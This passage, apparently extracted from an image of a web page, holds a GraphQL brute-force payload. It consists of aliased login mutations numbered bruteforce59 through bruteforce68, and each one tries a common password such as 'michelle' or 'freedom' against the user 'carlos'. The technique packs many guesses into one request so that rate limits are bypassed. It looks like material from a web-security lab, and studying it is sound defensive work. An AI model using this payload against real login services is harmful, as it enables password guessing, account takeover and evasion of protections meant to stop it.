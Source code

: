 ```bash
        token
        success
    }


bruteforce59:login(input:{password: "michelle", username: "carlos"}) {
        token
        success
    }


bruteforce60:login(input:{password: "jessica", username: "carlos"}) {
        token
        success
    }


bruteforce61:login(input:{password: "pepper", username: "carlos"}) {
        token
        success
    }


bruteforce62:login(input:{password: "1111", username: "carlos"}) {
        token
        success
    }


bruteforce63:login(input:{password: "zxcvbn", username: "carlos"}) {
        token
        success
    }


bruteforce64:login(input:{password: "555555", username: "carlos"}) {
        token
        success
    }


bruteforce65:login(input:{password: "11111111", username: "carlos"}) {
        token
        success
    }


bruteforce66:login(input:{password: "131313", username: "carlos"}) {
        token
        success
    }


bruteforce67:login(input:{password: "freedom", username: "carlos"}) {
        token
        success
    }


bruteforce68:login(input:{password: "777777", username: "carlos"}) {
        token
        success
    }
```